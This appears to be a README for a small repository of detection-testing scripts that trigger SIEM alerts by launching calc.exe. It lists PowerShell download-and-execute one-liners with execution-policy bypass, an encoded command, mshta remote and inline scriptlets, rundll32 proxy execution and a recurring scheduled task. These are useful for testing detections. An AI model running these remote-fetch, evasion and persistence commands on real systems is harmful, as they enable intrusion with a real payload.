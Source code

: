 # runcalc
Just some basic scripts for testing SIEM alerts


# Invoke-Expression
This powershell script just launch calc.exe using methods to download and execute various malicious payloads.  Below are some of the ways to call this.

### Standard Execution
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/invokecalc.ps1');invoke-calc"

### Base 64 Encoded Execution
powershell -noprofile -noninteractive -executionpolicy bypass -encodedcommand cABvAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACAALQBlAHgAZQBjACAAQgB5AHAAYQBzAHMAIAAtAEMAIAAiAEkARQBYACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAOgAvAC8AcgBhAHcALgBnAGkAdABoAHUAYgB1AHMAZQByAGMAbwBuAHQAZQBuAHQALgBjAG8AbQAvAGwAbwBzAHQAdAByAG8AbABsAC8AYgBsAHUAZQB0AGUAcwB0AHMALwBtAGEAaQBuAC8AaQBuAHYAbwBrAGUAYwBhAGwAYwAuAHAAcwAxACcAKQA7AGkAbgB2AG8AawBlAC0AYwBhAGwAYwAiAA==

## MSHTA
The command will use MSHTA to download a payload that executes calc.exe

### Remote Payload
mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct").Exec();close();

### Local Payload
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""calc.exe"""))</script>'"

### Local Payload w/ Powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20calc.exe"""))</script>'"

### Download and Display the Payload
mshta https://raw.githubusercontent.com/losttroll/runcalc/main/calc.sct

## RunDLL32.exe
rundll32.exe pcwutl.dll,LaunchApplication C:\Windows\System32\calc.exe

## Task Scheduler
schtasks /Create /F /SC MINUTE /MO 3 /ST 11:50 /TN CalcLocalTask /TR "calc.exe"

### Download and Execute Script
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/losttroll/runcalc/main/nothingtoseehere.txt') | Out-File eula.txt; cmd /c $(type .\eula.txt)
